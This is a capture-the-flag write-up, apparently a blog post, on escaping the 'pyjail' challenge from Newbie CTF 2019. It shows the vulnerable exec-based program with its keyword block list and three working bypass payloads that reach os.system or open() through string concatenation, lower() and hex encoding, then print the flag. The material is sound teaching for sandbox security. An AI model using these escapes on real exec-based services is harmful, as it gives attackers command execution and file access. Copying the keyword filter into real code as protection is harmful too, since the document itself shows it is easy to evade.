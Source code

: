 ```yaml
---
title: "How to Python jail escape (Newbie CTF 2019)"
date: "May 1, 2022"
excerpt: "Python jail escape: a challenge with one of the lowest points in the Newbie CTF 2019 which we solve in this article. We use built-in methods."
cover_image: "/images/posts/jailescape/image-e1658960653261.webp"
time_read: "5 min"
tags: ["python", "ctf"]
---
```


Python jail escape: a challenge with one of the lowest points in the Newbie CTF 2019 which we solve in this article. It is generally a bad idea to allow users to input commands that will be executed, since there is a high chance that they could input something that would allow them to gain elevated permissions or access sensitive data. However, people often add condition checks in an attempt to prevent this from happening, even though it is rarely effective.

![Python jail Escape](/images/posts/jailescape/image-2.webp)

## Python Jail escape: Code

We connect to the virtual environment. Next the following text appears:

<div style="background: #f0f0f0; overflow:auto;width:auto;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">Hi! Welcome to pyjail!
<span style="color: #666666">========================================================================</span>
<span style="color: #60a0b0; font-style: italic">#! /usr/bin/python3</span>
<span style="color: #60a0b0; font-style: italic">#-*- coding:utf-8 -*-</span>
def main<span style="color: #666666">()</span>:
print<span style="color: #666666">(</span>“Hi! Welcome to pyjail!”<span style="color: #666666">)</span>
print<span style="color: #666666">(</span>“<span style="color: #666666">========================================================================</span>”<span style="color: #666666">)</span>
print<span style="color: #666666">(</span>open<span style="color: #666666">(</span>__file__<span style="color: #666666">)</span>.read<span style="color: #666666">())</span>
print<span style="color: #666666">(</span>“<span style="color: #666666">========================================================================</span>”<span style="color: #666666">)</span>
print<span style="color: #666666">(</span>“RUN”<span style="color: #666666">)</span>
<span style="color: #bb60d5">text</span> <span style="color: #666666">=</span> input<span style="color: #666666">(</span>‘&gt;&gt;&gt; ‘<span style="color: #666666">)</span>
<span style="color: #007020; font-weight: bold">for </span>keyword in <span style="color: #666666">[</span>‘eval’, ‘exec’, ‘import’, ‘open’, ‘os’, ‘read’, ‘system’, ‘write’<span style="color: #666666">]</span>:
<span style="color: #007020; font-weight: bold">if </span>keyword in text:
print<span style="color: #666666">(</span>“No!!!”<span style="color: #666666">)</span>
<span style="color: #007020; font-weight: bold">return</span>;
<span style="color: #007020; font-weight: bold">else</span>:
<span style="color: #007020">exec</span><span style="color: #666666">(</span>text<span style="color: #666666">)</span>
<span style="color: #007020; font-weight: bold">if </span><span style="color: #bb60d5">__name__</span> <span style="color: #666666">==</span> “__main__”:
main<span style="color: #666666">()</span>
<span style="color: #666666">========================================================================</span>
RUN
</pre></div>

The source code for the program is available, so we can figure out what needs to be done in order to beat the condition checks. The functions that could be used to get the flag are not allowed :'eval’, ‘exec’, ‘import’, ‘open’, ‘os’, ‘read’, ‘system’, ‘write’. However, we could utilize the concatenation of strings to evade the restriction as well as using [Built-in functions](https://docs.python.org/3/library/functions.html).

In order to understand how Python evaluates statements, let’s take a look at an example. If you write “import os” in a Python script, Python will retrieve a function object called “import” and pass it the input “os”. This will return a class called “os” with the relevant methods. Besides, you can use built-in objects in Python by using the **builtins** module. This module is not typically accessed directly by most applications. Nevertheless, it can be useful for modules that provide objects with the same name as a built-in value.

<div style="background: #f0f0f0; overflow:auto;width:auto;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%"><span style="color: #c65d09; font-weight: bold">&gt;&gt;&gt; </span><span style="color: #007020; font-weight: bold">print</span>(<span style="color: #007020">getattr</span>(<span style="color: #007020">getattr</span>(<span style="color: #007020">globals</span>()[<span style="color: #4070a0">&#39;__builtins__&#39;</span>], <span style="color: #4070a0">&#39;__im&#39;</span><span style="color: #666666">+</span><span style="color: #4070a0">&#39;port__&#39;</span>)(<span style="color: #4070a0">&#39;o&#39;</span><span style="color: #666666">+</span><span style="color: #4070a0">&#39;s&#39;</span>), <span style="color: #4070a0">&#39;sys&#39;</span><span style="color: #666666">+</span><span style="color: #4070a0">&#39;tem&#39;</span>)(<span style="color: #4070a0">&#39;ls .&#39;</span>))
<span style="color: #888888">bin</span>
<span style="color: #888888">boot</span>
<span style="color: #888888">dev</span>
<span style="color: #888888">etc</span>
<span style="color: #888888">home</span>
<span style="color: #888888">lib</span>
<span style="color: #888888">lib32</span>
<span style="color: #888888">lib64</span>
<span style="color: #888888">libx32</span>
<span style="color: #888888">media</span>
<span style="color: #888888">mnt</span>
<span style="color: #888888">opt</span>
<span style="color: #888888">proc</span>
<span style="color: #888888">root</span>
<span style="color: #888888">run</span>
<span style="color: #888888">sbin</span>
<span style="color: #888888">srv</span>
<span style="color: #888888">sys</span>
<span style="color: #888888">tmp</span>
<span style="color: #888888">usr</span>
<span style="color: #888888">var</span>
<span style="color: #888888">0</span>
<span style="color: #c65d09; font-weight: bold">&gt;&gt;&gt; </span><span style="color: #007020; font-weight: bold">print</span>(<span style="color: #007020">getattr</span>(<span style="color: #007020">getattr</span>(<span style="color: #007020">globals</span>()[<span style="border: 1px solid #FF0000">‘</span>__builtins__<span style="border: 1px solid #FF0000">’</span>], <span style="border: 1px solid #FF0000">‘</span>__im<span style="border: 1px solid #FF0000">’</span><span style="color: #666666">+</span><span style="border: 1px solid #FF0000">’</span>port__<span style="border: 1px solid #FF0000">’</span>)(<span style="border: 1px solid #FF0000">‘</span>o<span style="border: 1px solid #FF0000">’</span><span style="color: #666666">+</span><span style="border: 1px solid #FF0000">’</span>s<span style="border: 1px solid #FF0000">’</span>), <span style="border: 1px solid #FF0000">‘</span>sys<span style="border: 1px solid #FF0000">’</span><span style="color: #666666">+</span><span style="border: 1px solid #FF0000">’</span>tem<span style="border: 1px solid #FF0000">’</span>)(<span style="border: 1px solid #FF0000">‘</span>cat home<span style="color: #666666">/</span>python_jail<span style="color: #666666">/</span>flag<span style="border: 1px solid #FF0000">’</span>))

<span style="color: #888888">KorNewbie{H311o*h0w*@r3_y0u_d0lng?}</span>

</pre></div>

Another solution to the Capture the Flag challenge is to use lower() string method:

<div style="background: #f0f0f0; overflow:auto;width:auto;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%"><span style="color: #888888">&gt;&gt;&gt;__builtins__.__dict__[‘__IMPORT__’.lower()](‘OS’.lower()).__dict__[‘SYSTEM’.lower()](‘cat /home/python_jail/flag’)</span>
</pre></div>

We could also encode the strings to display the hidden key:

<div style="background: #f0f0f0; overflow:auto;width:auto;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%"><span style="color: #c65d09; font-weight: bold">&gt;&gt;&gt; </span><span style="color: #007020; font-weight: bold">print</span>(<span style="color: #007020">getattr</span>(<span style="color: #007020">getattr</span>(<span style="color: #007020">getattr</span>(main, <span style="border: 1px solid #FF0000">‘</span>__globals__<span style="border: 1px solid #FF0000">’</span>)[<span style="border: 1px solid #FF0000">‘</span>__builtins__<span style="border: 1px solid #FF0000">’</span>], <span style="border: 1px solid #FF0000">‘</span>\x6f\x70\x65\x6e<span style="border: 1px solid #FF0000">’</span>)(<span style="border: 1px solid #FF0000">‘</span><span style="color: #666666">/</span>home<span style="color: #666666">/</span>python_jail<span style="color: #666666">/</span>flag<span style="border: 1px solid #FF0000">’</span>, <span style="border: 1px solid #FF0000">‘</span>rb<span style="border: 1px solid #FF0000">’</span>), <span style="border: 1px solid #FF0000">‘</span>\x72\x65\x61\x64<span style="border: 1px solid #FF0000">’</span>)())
<span style="color: #888888">b’\xef\xbb\xbfKorNewbie{H311o_h0w_@r3_y0u_d0lng?}</span>
</pre></div>

## Related Posts

- [Simple Ceramic Data Model App and Unstoppable Domains](https://dspyt.com/simple-app-with-ceramic-data-model-and-unstoppable-domains)
- [Simple QR code generator on AWS with Flask](https://dspyt.com/simple-qr-code-generator-on-aws-with-flask)
- [How to implement asyncio python tutorial](https://dspyt.com/simple-asynchronous-python-webscraper-tutorial)
- [How to generate parsiq wallet triggers for CryptoPunks](https://dspyt.com/generating-fast-and-easy-parsiq-triggers-for-cryptopunks)
- [Guide to Marhaba Decentralized Financial Platform](https://dspyt.com/mrhb-defi-great-technologies-and-functionalities)
